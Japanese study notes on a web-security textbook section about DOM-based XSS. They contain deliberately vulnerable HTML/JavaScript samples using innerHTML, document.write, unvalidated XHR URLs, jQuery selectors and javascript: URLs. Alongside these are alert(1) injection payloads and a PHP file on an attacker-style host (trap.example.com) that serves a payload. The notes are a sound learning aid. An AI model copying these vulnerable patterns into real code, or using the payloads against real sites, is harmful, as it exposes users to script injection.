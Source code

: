 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.17 JavaScriptの問題
- #### 4.17.1 DOM Based XSS
	- DOM(Document Object Model)とはJavaScriptからHTMLを操作するための仕組み
		- 例えばexample.comをChromeで開いて、DevToolsのConsoleタブで以下を実行する
			- ```js
			  document.getElementsByTagName("h1")[0].textContent = "Hoge Domain";
			  ```
		- するとページ中の`Example Domain`と書いてあった部分が`Hoge Domain`に変化する
	- 反射型XSS、持続型XSSとは別にDOMが原因で発生するXSSをDom Based XSSと呼ぶ
	- 反射型XSSや持続型XSSはサーバ上で悪意あるスクリプトを含むHTMLが生成される一方で、DOM Based XSSはブラウザ上で生成されるという特徴がある
		- DOM Based XSSはPCでHTMLファイルを作って、それをブラウザで開くだけで試すことが出来る
	- innerHTMLによるDOM Based XSS
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <p id="hoge"></p>
			  <script>
			  var hoge = document.getElementById("hoge");
			  var hashValue = decodeURI(location.hash.slice(1));
			  hoge.innerHTML = hashValue;
			  </script>
			  ```
		- このHTMLファイルをブラウザで開く
		- URLの末尾に`#あ`をつけてリロードしてみると、`あ`が画面に表示される(2回リロードしないといけないかも)
			- location.hashは`#`から始まるのでsliceで`#`を除いている
			- decodeURIはパーセントエンコードされた文字列を元に戻す関数([参考](https://www.tohoho-web.com/js/builtin.htm#encode))
			- decodeURIがない場合は`あ`ではなく`%E3%81%82`が表示される
		- `#`の後に続く文字列はフラグメント識別子と呼ばれる
			- ↑のdecodeURIの参考リンク( https://www.tohoho-web.com/js/builtin.htm#encode ) でフラグメント識別子が使われており、フラグメント識別子を起点としてページが表示されていることが分かる
			- 他にもe-wordsでは、テキストを紫色のマーカーで強調表示するのにフラグメント識別子が使われていたりする
		- フラグメント識別子を`<img src=/ onerror=alert(1)>`にして表示すると、alert(1)が実行される
			- DevToolsのElementsタブを見ると、以下のHTMLが構築されていることが分かる
				- ```html
				  <p id="hoge"><img src="/" onerror="alert(1)"></p>
				  ```
			- 画像の読み込みに失敗するのでonerrorで指定した処理が実行される
		- フラグメント識別子を`<script>alert(1)</script>`にしてもalert(1)が実行されるように思われるが、実行されない
			- これはHTML5で規定されていることらしい([参考](https://zenn.dev/k41531/articles/44b6dbd5f67ff9))
		- 作成したHTMLファイルは攻撃例としては分かりやすいが、実際にフラグメント識別子をDOMを使って表示内容に組み込むといったことは多分無いだろう
	- docuemnt.writeによるDOM Based XSS
		- innerHTMLでscriptタグを埋め込んでも実行されなかったが、document.writeでは実行される
		- HTMLファイルを以下のように修正する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <script>
			  var hoge = document.getElementById("hoge");
			  var hashValue = decodeURI(location.hash.slice(1));
			  document.write(hashValue);
			  </script>
			  ```
		- フラグメント識別子を`<script>alert(1)</script>`にするとalert(1)が実行される
	- XMLHttpRequestのURL未検証の問題
		- innerHTMLやdocument.writeによるDOM Based XSSの例として、XHRで取得した他のHTMLファイルの内容を埋め込む、というものもある
		- これはサーバがないと試せない
		- 以下のようなHTMLファイルを考える
			- ```html
			  <h1>DOM Based XSS</h1>
			  <a href="#hoge">hoge</a>
			  <div id="content"></div>
			  <script>
			  var req = new XMLHttpRequest();
			  var url = location.hash.slice(1) + '.html';
			  req.open("GET", url);
			  req.onreadystatechange = function() {
			    if (req.readyState == 4 && req.status == 200) {
			      var div = document.getElementById("content");
			      div.innerHTML = req.responseText;
			    };
			  };
			  req.send(null);
			  </script>
			  ```
			- フラグメント識別子で指定されたHTMLファイルをXHRで取得し、その内容を埋め込む
			- \http://example.jp/index.html\#hogeにアクセスしたなら、XHRのリクエスト先は\http://example.jp/hoge.htmlのようになる
			- [XHRのreadyStateについて](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest/readyState)
		- フラグメント識別子で攻撃者が用意したサーバのスクリプトを指定することで攻撃が可能
			- 例えば、http://trap.example.comにattack.phpという名前で以下のファイルを置く
				- ```php
				  <?php header('Access-Control-Allow-Origin: http://example.jp'); ?>
				  <img src=/ onerror=alert(1)>
				  ```
			- そしてフラグメント識別子を`//trap.example.com/attack.php`にする
				- これによってXHRのリクエスト先がhttp://trap.example.com/attack.phpになる
				- Access-Control-Allow-Originヘッダをhttp://example.jpにしているので、http://example.jpからhttp://trap.example.comへのリクエストは許可される
			- 以下のHTMLが構築され、alert(1)が実行される
				- ```html
				  <div id="content"><img src="/" onerror="alert(1)"></div>
				  ```
	- jQueryのセレクタの動的生成によるXSS
		- jQueryにはセレクタと呼ばれる操作したいHTMLタグを指定する機能がある
		- セレクタはjQuery()という関数で利用出来るが、多くの場合は$()という別名で利用される
			- `$('#idname')` : id属性がidnameであるものを取得
			- `$('.classname')` : class属性がclassnameであるものを取得
			- `$('input[name="foo"]')` : inputタグでname属性がfooのものを取得
			- `$('<p>hoge</p>')` : pタグを作る
				- `$('body').append($('<p>hoge</p>'))`のようにしてHTMLに追加出来る([参考](https://www.koikikukan.com/archives/2013/07/16-003333.php))
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <script src="https://cdnjs.cloudflare.com/ajax/libs/URI.js/1.19.0/URI.min.js"></script>
			  <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.8.3/jquery.min.js"></script>
			  <form id="form1">
			  <input type="radio" name="color" value="1">赤<br>
			  <input type="radio" name="color" value="2">緑<br>
			  <input type="radio" name="color" value="3">青<br>
			  </form>
			  <script>
			  var uri = new URI();
			  var color = uri.query(true).color;
			  if (!color) color = 1;
			  $(`input[name="color"][value="${color}"]`).attr("checked", true);
			  </script>
			  ```
			- jQueryの他にクエリパラメータを簡単に扱うためのURI.min.jsをCDNから読み込んでいる([参考](https://thebaker.hatenablog.com/entry/2018/02/08/154315))
		- `?color=1`なら赤が選択された状態、`?color=2`なら緑が選択された状態、`?color=3`なら青が選択された状態になる
		- `?color="]<img src=/ onerror=alert(1)>`とすると、alert(1)が実行される
			- 以下のスクリプトが実行される
				- ```js
				  $(`input[name="color"][value=""]<img src=/ onerror=alert(1)>"]`).attr("checked", true);
				  ```
			- HTMLには追加されないが`<img src=/ onerror=alert(1)>`が作成されることによって、alert(1)が実行される
		- バージョン1.8.3のjQueryだと再現出来たが、バージョン1.9.0だとSyntax Errorとなった
			- Uncaught Error: Syntax error, unrecognized expression: input[name="color"][value=""]<img src=/ onerror=alert(1)>"]
		- html()でも同様にXSSが起こる([参考](https://js.studio-kingdom.com/jquery/manipulation/html))
		- 他にもappendで追加するHTMLをエスケープせずにXSSとなるケースもある([参考](https://qiita.com/miya_zato/items/7ea57326c86a198fcf08#dom-based-xss))
	- javascriptスキームによるXSS
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <input type="button" value="実行" onclick="go()">
			  <script>
			  const go = () => {
			    var url = location.hash.slice(1);
			    location.href = url;
			  };
			  </script>
			  ```
			- 実行ボタンを押すと、フラグメント識別子で指定されたURLにリダイレクトする
			- \http://example.jp/index.html\#hogeにアクセスして、実行ボタンを押したら\http://example.jp/hoge.htmlにリダイレクトする
		- フラグメント識別子を`javascript:alert(1)`にして実行ボタンを押すとalert(1)が実行される
			- ((64d87ad2-9abb-4302-80b8-7bc3eb5b6542)) に関連している